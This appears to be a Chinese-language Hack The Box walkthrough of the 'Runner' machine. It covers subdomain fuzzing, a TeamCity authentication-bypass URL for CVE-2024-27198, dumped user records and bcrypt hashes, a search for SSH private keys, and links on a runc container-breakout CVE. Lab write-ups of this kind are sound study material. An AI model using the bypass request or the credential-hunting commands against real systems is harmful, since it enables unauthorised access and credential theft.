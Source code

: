 ```yaml
---
title: HTB Runner
password: miku1004
---
```


## Recon


nmap

![./Untitled](./Untitled.png)

gobuster 的dir模式和wfuzz竟然没有扫出东西来…… 

```java
cewl -w wordlists.txt -d 2 -m 5 http://runner.htb 
```

再次跑子域名：

```java
gobuster fuzz --url  http://FUZZ.runner.htb -w wordlists.txt  -k  -v 
```

![./Untitled](./Untitled%201.png)

发现页面  [`http://teamcity.runner.htb/login.html`](http://teamcity.runner.htb/login.html) 

先加入到hosts文件中。

## User Flag

看了下子域名的目录遍历和网页源代码，没有新的发现

继续下一步，teamcity的版本是Version 2023.05.3 (build 129390)

![./Untitled](./Untitled%202.png)

参考这篇[文章](https://www.rapid7.com/blog/post/2024/03/04/etr-cve-2024-27198-and-cve-2024-27199-jetbrains-teamcity-multiple-authentication-bypass-vulnerabilities-fixed/)，访问： [`http://teamcity.runner.htb/hax?jsp=/app/rest/server;.jsp`](http://teamcity.runner.htb/hax?jsp=/app/rest/server;.jsp) 发现是可以利用成功的。

管理员信息：

```java
<user username="admin" name="John" id="1" email="john@runner.htb" lastLogin="20240426T035325+0000" href="/app/rest/users/id:1">
<properties count="10" href="/app/rest/users/id:1/properties">
<property name="addTriggeredBuildToFavorites" value="true"/>
<property name="hasSeenExperimentalOverview" value="true"/>
<property name="lastSeenSakuraUIVersion" value="2023.05.3"/>
<property name="lastSelectedCreateObjectOption" value="createManually"/>
<property name="plugin:vcs:anyVcs:anyVcsRoot" value="admin"/>
<property name="showAdvancedOpts_editCreateProject" value="true"/>
<property name="showAllProjectTabs" value="true"/>
<property name="teamcity.server.buildNumber" value="129390"/>
<property name="visible.projects.configured" value="true"/>
<property name="was.logged.in" value="true"/>
</properties>
<roles>
<role roleId="SYSTEM_ADMIN" scope="g" href="/app/rest/users/id:1/roles/SYSTEM_ADMIN/g"/>
</roles>
<groups count="1">
<group key="ALL_USERS_GROUP" name="All Users" href="/app/rest/userGroups/key:ALL_USERS_GROUP" description="Contains all TeamCity users"/>
</groups>
</user>
```

利用脚本：https://github.com/W01fh4cker/CVE-2024-27198-RCE 

进入后台

![./Untitled](./Untitled%203.png)

试了下，貌似没什么用

![./Untitled](./Untitled%204.png)

发现backup

![./Untitled](./Untitled%205.png)

database_dump下没法破解。。。

```java
└─$ cat users 
ID, USERNAME, PASSWORD, NAME, EMAIL, LAST_LOGIN_TIMESTAMP, ALGORITHM
1, admin, $2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye, John, john@runner.htb, 1714091673842, BCRYPT
2, matthew, $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em, Matthew, matthew@runner.htb, 1714088157371, BCRYPT
11, h454nsec2943, $2a$07$Pxnyf5RZNFpcq8dFlPXta.Z3VQEFPuY0xVWPVBsU.MrAsvz5gfn6a, , "", 1714091702791, BCRYPT

```

然后 `./config/projects/AllProjects/pluginData/ssh_keys` 下发现有个key

好家伙 名字也给了 登之

其实刚刚的那个exploit脚本用 `find / -name "id_rsa" 2>/dev/null` 也可以找到 （

## Root flag

默认习惯 `sudo -l`康康…… 什么也没有还要密码

注意到还有个用户叫：matthew

![./Untitled](./Untitled%206.png)

访问 [http://portainer-administration.runner.htb/](http://portainer-administration.runner.htb/)

![./Untitled](./Untitled%207.png)

找到一个cve也只是遍历用户名罢了

测试加密方式

```bash
hashid '$2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em'
$2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye
```

![./Untitled](./Untitled%208.png)

![./Untitled](./Untitled%209.png)

漏洞信息：

[https://snyk.io/blog/cve-2024-21626-runc-process-cwd-container-breakout/](https://snyk.io/blog/cve-2024-21626-runc-process-cwd-container-breakout/)

[https://nitroc.org/en/posts/cve-2024-21626-illustrated/#exploit-via-setting-working-directory-to-procselffdfd](https://nitroc.org/en/posts/cve-2024-21626-illustrated/#exploit-via-setting-working-directory-to-procselffdfd)

![./Untitled](./Untitled%2010.png)